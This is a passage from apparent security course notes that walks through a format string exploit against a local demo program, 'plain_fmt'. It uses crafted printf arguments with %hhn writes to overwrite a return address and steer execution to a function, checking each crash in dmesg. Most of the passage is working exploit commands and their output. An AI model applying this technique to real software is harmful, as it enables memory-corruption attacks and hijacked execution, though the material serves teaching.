 INFINITE LOOP! We are on to something here. Let's try some other
addresses within the return address range.

``` {.example}
user@si485H-base:demo$ ./plain_fmt $(printf "\x8d\xf6\xff\xbf")BBBBCCCCDDDD%1\$008x.%123\$hhn.%1\$008x.%124\$00x.%1\$008x.%125\$00x.%1\$008x.%126\$00x.%7\$#08x 
????BBBBCCCCDDDDbffff724..bffff724.42424242.bffff724.43434343.bffff724.44444444.0xdeadbeef
Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[496993.978183] plain_fmt[3047]: segfault at 41007d0c ip b7e31983 sp bffff690 error 6 in libc-2.19.so[b7e1a000+1a8000]
user@si485H-base:demo$ ./plain_fmt $(printf "\x8e\xf6\xff\xbf")BBBBCCCCDDDD%1\$008x.%123\$hhn.%1\$008x.%124\$00x.%1\$008x.%125\$00x.%1\$008x.%126\$00x.%7\$#08x 
????BBBBCCCCDDDDbffff724..bffff724.42424242.bffff724.43434343.bffff724.44444444.0xdeadbeef
Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[497001.269591] plain_fmt[3052]: segfault at b7193a83 ip b7193a83 sp bffff690 error 14
user@si485H-base:demo$ ./plain_fmt $(printf "\x8f\xf6\xff\xbf")BBBBCCCCDDDD%1\$008x.%123\$hhn.%1\$008x.%124\$00x.%1\$008x.%125\$00x.%1\$008x.%126\$00x.%7\$#08x 
????BBBBCCCCDDDDbffff724..bffff724.42424242.bffff724.43434343.bffff724.44444444.0xdeadbeef
Segmentation fault (core dumped)
```

Notice the 0x19 that is moving through the return address range, that
means we are in the money and we can start writing some bytes to that
address.

Writing Byes
------------

Like before, we want to write from most significant to least
significant, so we can setup the following format:

``` {.example}
user@si485H-base:demo$ ./plain_fmt $(printf "\x8f\xf6\xff\xbf")$(printf "\x8e\xf6\xff\xbf")$(printf "\x8d\xf6\xff\xbf")$(printf "\x8c\xf6\xff\xbf")%1\$008x.%123\$hhn.%1\$008x.%124\$hhn.%1\$008x.%125\$hhn.%1\$008x.%126\$hhn.%7\$#08x 
????????????????bffff724..bffff724..bffff724..bffff724..0xdeadbeef
Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[497630.497343] plain_fmt[3118]: segfault at 19232d37 ip 19232d37 sp bffff690 error 14

```

And then look at the dmesg output to track our progress. The goal is to
write to address of foo:

``` {.example}
user@si485H-base:demo$ objdump -d plain_fmt | grep foo
0804847d <foo>:
```

The first byte we need to write is 0x08 and we are currently writing
0x19, so we wrap around:

``` {.example}
user@si485H-base:demo$ python -c "print (0x100 - 0x19) + 0x08 + 8"
247
user@si485H-base:demo$ ./plain_fmt $(printf "\x8f\xf6\xff\xbf")$(printf "\x8e\xf6\xff\xbf")$(printf "\x8d\xf6\xff\xbf")$(printf "\x8c\xf6\xff\xbf")%1\$247x.%123\$hhn.%1\$008x.%124\$hhn.%1\$008x.%125\$hhn.%1\$008x.%126\$hhn.%7\$#08x 
????????????????                                                                                                                                                                                                                                               bffff724..bffff724..bffff724..bffff724..0xdeadbeef
Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[497667.448239] plain_fmt[3127]: segfault at 8121c26 ip 08121c26 sp bffff690 error 14
```
